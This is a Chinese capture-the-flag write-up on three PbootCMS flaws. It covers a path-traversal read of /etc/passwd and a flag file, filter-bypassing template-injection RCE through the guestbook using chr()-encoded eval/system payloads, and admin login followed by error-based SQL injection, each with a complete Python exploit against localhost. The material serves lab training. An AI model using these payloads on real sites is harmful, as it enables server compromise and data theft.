










# BreakIt — 队员互相破解漏洞（做题人视角的 WP & EXP)

## 漏洞一

 **任意文件读取漏洞**

> **/etc/passwd** ：Linux 系统保存用户信息及其工作目录的文件，权限是可读。

参考 [过往版本漏洞](https://xz.aliyun.com/t/7744#toc-0) ，此类漏洞大多存在 `../` 和 `\`  的过滤现象，可利用 **双写绕过** 解决。

以「PbootCMS」为模版的网站为实现搜索功能常使用「search」等标签，在 [PbootCMS英文站搜索结果页面包屑和标题翻译](https://www.srso.cn/seo/770.htm) 等在线文档中发现「searchtpl」属性名。

综合以上，反复多次试验找出了根目录

`?search=&searchtpl=....//....//....//....//....//....//....//....//etc/passwd`



猜想有「flag.php」或「flag」放在根目录或其子目录下，试验发现「flag」直接放在根目录下，成功拿到 flag

`?search=&searchtpl=....//....//....//....//....//....//....//....//flag`



利用「request 库」即可得到 flag

```python
import requests
def exp(url):
    r=requests.get(url)
    flag=r.text
    return flag
if __name__ == '__main__':
    print(exp("http://127.0.0.1/?search=&searchtpl=....//....//....//....//....//....//....//....//flag"))
```



## 漏洞二

**破解思路**：由于漏洞在留言板处，同时是前台RCE的题目，根据题目线索： `pbootpbootpboot:if:if:if` ，推测存在针对 `pboot:if` 的代码绕过。于是可以在留言板内容处进行一句话木马注入，三次重复说明存在两次双写绕过。

1. 在留言处测试输入 `{pbootpbootpboot:if:if:if(TRUE)}test{/pbootpbootpboot:if:if:if}`

   

   - 在两个 `pboot:if` 标签被过滤之后，系统执行 `{pboot:if(TRUE)}test{/pboot:if}` ，输出条件为 `true`，`test` 作为文本被输出到留言板中
   - 参考 [PbootCMS 开发手册](https://www.pbootcms.com/docs/235.html) 使用 `pboot:if` 标签，作用为根据条件输出不同内容

2. 尝试构造 `payload` 为 `{pbootpbootpboot:if:if:if(system(whoami))}test{/pbootpbootpboot:if:if:if}` 打印用户登录信息

   执行失败，说明系统存在其他过滤手段

   

3. 研究资料发现：除了 if 标签过滤以外， `payload` 还被进行一层安全校验：提取出 `pboot:if` 标签条件判断的括号 () 中左括号前的字符串，判断字符串是不是函数或者字符串内容是不是 `eval`，若上述都不满足，再判断字符串不在白名单中，若在白名单中才可执行。

   - `eval`  把字符串作为PHP代码执行

4. 由于 PHP 项目中通过会有移除控制字符的函数。在构造 `payload` 过程中将函数名和括号间插入控制字符进行绕过。使用 `chr()` 拼接字符串，其作用是从指定的 ASCII 码返回字符串，从而进行拼接绕过。

   ```
   #system("cat flag.php")的ascii码
   \u0073\u0079\u0073\u0074\u0065\u006d\u0028\u0022\u0063\u0061\u0074\u0020\u0066\u006c\u0061\u0067\u002e\u0070\u0068\u0070\u0022\u0029
   ```

5. 编写拿 flag 的代码：这里经过多次试验，猜测出隐藏 flag 的文件为 `flag.php`

   函数 `post` 发送 `payload`

   ```php
   def myPost(url):
       headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/54.0.2840.99 Safari/537.36"}
       post = {
           'contacts': 'stephanieSuu',
           'mobile': '123456',
           'content': '{ppbopboot:ifot:ifboot:if((eval ( chr (0x73).chr (0x79).chr (0x73).chr (0x74).chr (0x65).chr ('
                      '0x6d).chr (0x28).chr (0x22).chr (0x63).chr (0x61).chr (0x74).chr (0x20).chr (0x66).chr (0x6c).chr '
                      '(0x61).chr (0x67).chr (0x2e).chr (0x70).chr (0x68).chr (0x70).chr (0x22).chr (0x29).chr ('
                      '0x3b))))}我今天吃饭了{/pbpbopboot:ifot:ifoot:if} '
           
           #执行system("cat flag.php")一句话木马，
       }
       response = requests.post(url, data=post,headers= headers)
       if response.status_code == 200:
           print("Exp successed")
           return True
       else:
           print("Exp failed, response code=" + str(response.status_code))
           return False           
   ```

   前台留言板并未显示任何内容，猜测后台留言已经新增成功，去前台留言板获取新增的留言，又因为留言内容执行的是  `system("cat flag.php");` ，所以应该可以拿到 `flag`

   ```python
   def catchFlag():
       r = requests.get("http://127.0.0.1/?gbook/")
       flag = re.findall(r'''flag="(.+?)";''', r.text)
       if (len(flag)>=0):
           #多次插入exp会造成获取到多个flag，取一个即可
           print(flag[0])
       else:
           print("can not catch the Flag")
   ```

   主函数

   ```python
   if __name__ == '__main__':
       url = "http://127.0.0.1/?message/"
       if myPost(url):
           catchFlag()
   ```

   成功拿到 `flag{flaggg}`
   
   

## 漏洞三

**整体破解思路分析**：

- 由于是后台 RCE ，需要先拿到账号密码登录

- 漏洞在新增内容处，参考 [PbootCMS SQL Injection](https://github.com/wowwooo/vnotes/blob/master/PbootCMS%20SQL%20Injection%20Description.md) 进行注入测试，首先尝试一下爆数据库名，发现成功。

  ```mysql
  1' AND (SELECT * FROM(SELECT COUNT(*),CONCAT(database(),FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.TABLES GROUP BY x)a) AND 'a'='a
  ```

  

- 所以利用报错注入可以一步步得到 Flag。

1. 破解账号和密码

根据提示——题目线索：检查一下 `MTJAYWE0Li8oOUViOUFEKTApNw==` 看看能发现什么吧~

- 看到熟悉的 `=` ，肯定和 `base64` 加密有关，推测用户名为 `check` , `MTJAYWE0Li8oOUViOUFEKTApNw==` 是由原始密码经过 `base64` 加密变换后得到的密文。
- 经过尝试，发现使用 `base64` 解密，得到 `12@aa4./(9Eb9AD)0)7` ，看起来很像密码，在网站试一下果然是正确的。

在脚本中 `base64` 解密函数

```python
def b64decode(str):   
    decode = base64.b64decode(str)
    return decode
```

2. 拿 Flag

检查登录页：





（1）获取 ssrf token 以及 session id，后续登录需要校验

```python
def GetFormCheck():
    r = requests.get("http://127.0.0.1/admin.php")
    r.encoding = 'utf-8'
    soup = BeautifulSoup(r.text, "html.parser")
    formcheck = soup.find("input", {"name": "formcheck"})['value']
    PbootSystem = r.cookies['PbootSystem']
    return formcheck, PbootSystem
```

（2）利用 request 库进行 post 数据，并取回 cookie，为后续步骤所用

```python
def GetCookies():
    formcheck = GetFormCheck()
    password = b64decode("MTJAYWE0Li8oOUViOUFEKTApNw==")
    headers = {
        'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) '
                      'Chrome/71.0.3578.98 Safari/537.36',
        'Cookie': 'PbootSystem=' + formcheck[1]
    }
    url = 'http://127.0.0.1/admin.php?p=/Index/login'
    data = {
        'username': 'check',
        'password': password,
        'formcheck': formcheck[0]
    }
    
    r = requests.post(url, data, headers=headers)
    cookies = r.cookies['PbootSystem']
    return 'PbootSystem='+cookies
```

（3）发送 POC 到指定位置，并返回数据库报错内容

```python
def SentExp():
    cookie = GetCookies()
    headers = {
        'User-Agent': 'Mozilla/5.0 (Macintosh; Intel Mac OS X 10_13_6) AppleWebKit/537.36 (KHTML, like Gecko) '
                      'Chrome/71.0.3578.98 Safari/537.36',
        'Cookie': cookie
    }
    r = requests.get("http://localhost/admin.php?p=/Content/index/mcode/2", headers=headers)
    r.encoding = 'utf-8'
    soup = BeautifulSoup(r.text, "html.parser")
    formcheck = soup.find("input", {"name": "formcheck"})['value']
    url = 'http://127.0.0.1/admin.php?p=/Content/add/mcode/2'
    data = {
            "formcheck": formcheck,
            "scode": "3",
            "title": "checktest",
            "tags": "",
            "author": "check",
            "source": "%E6%9C%AC%E7%AB%99",
            "ico": "",
            "upload": "",
            "pics": "",
            "upload": "",
            "subscode": "",
            "titlecolor": "%23333333",
            "subtitle": "",
            "filename": "",
            "outlink": "",
            "date": "2022-07-20+11%3A33%3A26",
            "enclosure": "",
            "upload": "",
            "keywords": "",
            "description": "",
            "status": "1",
            "content": '''testPOC' or (select extractvalue(1,concat(0x7e,(select group_concat(flag,0x7e) from 
            pbootcms.ay_aFlag)))) or ' '''
    }
    r = requests.post(url, data, headers=headers)
    return r.text
```

（4）获取 flag

```python
def GetFlag():
    flag_text = re.findall(r'flag{(.+?)}', SentExp())
    return "flag{"+flag_text[0]+"}"
```

主函数

```python
import re
import requests
from bs4 import BeautifulSoup

if __name__ == '__main__':
    print(GetFlag())
```



## 备注：

当运行 `breakit-exp` 脚本时，`python` 版本过低（ `python2`）出现报错：`SyntaxError: Non-ASCII character '\xe6' in file xxx.py on line xx, but no encoding declared; see http://python.org/dev/peps/pep-0263/ for details` 

是 `python2` 编码问题，在脚本添加如下代码即可：

```python
# -*- coding:UTF-8 -*-
import sys
reload(sys)
sys.setdefaultencoding('utf8')
```

